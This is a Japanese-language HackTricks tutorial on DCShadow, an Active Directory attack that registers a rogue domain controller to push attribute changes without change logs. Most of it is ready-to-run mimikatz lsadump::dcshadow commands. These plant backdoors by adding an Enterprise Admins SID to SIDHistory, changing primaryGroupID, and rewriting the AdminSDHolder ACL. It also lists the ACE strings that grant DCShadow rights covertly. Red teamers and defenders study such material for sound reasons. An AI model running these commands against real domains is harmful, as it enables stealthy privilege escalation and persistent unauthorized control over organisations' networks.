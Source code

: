 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

ADに**新しいドメインコントローラー**を登録し、指定されたオブジェクトに**属性**（SIDHistory、SPNsなど）を**プッシュ**するために使用しますが、**変更**に関する**ログ**を残さずに行います。**DA**権限が必要で、**ルートドメイン**内にいる必要があります。\
間違ったデータを使用すると、かなりひどいログが表示されることに注意してください。

攻撃を実行するには、2つのmimikatzインスタンスが必要です。1つはSYSTEM権限でRPCサーバーを起動し（ここで実行したい変更を指定する必要があります）、もう1つのインスタンスは値をプッシュするために使用されます：

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DAまたは同様の権限が必要" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

**`elevate::token`** は `mimikatz1` セッションでは機能しません。これはスレッドの特権を昇格させるためですが、私たちは **プロセスの特権を昇格させる** 必要があります。\
また、"LDAP" オブジェクトを選択することもできます: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

DA またはこの最小限の権限を持つユーザーから変更をプッシュできます:

* **ドメインオブジェクト**内:
* _DS-Install-Replica_ (ドメイン内のレプリカの追加/削除)
* _DS-Replication-Manage-Topology_ (レプリケーショントポロジーの管理)
* _DS-Replication-Synchronize_ (レプリケーションの同期)
* **構成コンテナ**内の **サイトオブジェクト** (およびその子):
* _CreateChild and DeleteChild_
* **DC** として登録されている **コンピュータのオブジェクト**:
* _WriteProperty_ (書き込みではない)
* **ターゲットオブジェクト**:
* _WriteProperty_ (書き込みではない)

[**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) を使用して、特権のないユーザーにこれらの権限を付与できます (これによりいくつかのログが残ることに注意してください)。これは DA 権限を持つよりもはるかに制限されています。\
例えば: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` これは、ユーザー名 _**student1**_ がマシン _**mcorp-student1**_ にログインしているときに、オブジェクト _**root1user**_ に対して DCShadow 権限を持つことを意味します。

## DCShadow を使用してバックドアを作成する

{% code title="SIDHistory にユーザーを設定するためのエンタープライズ管理者" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="プライマリグループIDを変更する（ユーザーをドメイン管理者のメンバーにする）" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolderのntSecurityDescriptorを変更する（ユーザーにフルコントロールを与える）" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadowの権限をDCShadowを使用して付与する（変更された権限ログなし）

次のACEをユーザーのSIDで末尾に追加する必要があります：

* ドメインオブジェクト上：
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* 攻撃者コンピュータオブジェクト上：`(A;;WP;;;UserSID)`
* ターゲットユーザーオブジェクト上：`(A;;WP;;;UserSID)`
* 設定コンテナ内のサイトオブジェクト上：`(A;CI;CCDC;;;UserSID)`

オブジェクトの現在のACEを取得するには：`(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

この場合、**いくつかの変更を行う必要がある**ことに注意してください。したがって、**mimikatz1セッション**（RPCサーバー）で、行いたい各変更に対して**`/stack`パラメータを使用**してください。この方法で、すべてのスタックされた変更をルージュサーバーで実行するために**`/push`**を1回だけ実行する必要があります。



[**DCShadowに関する詳細情報はired.teamをご覧ください。**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
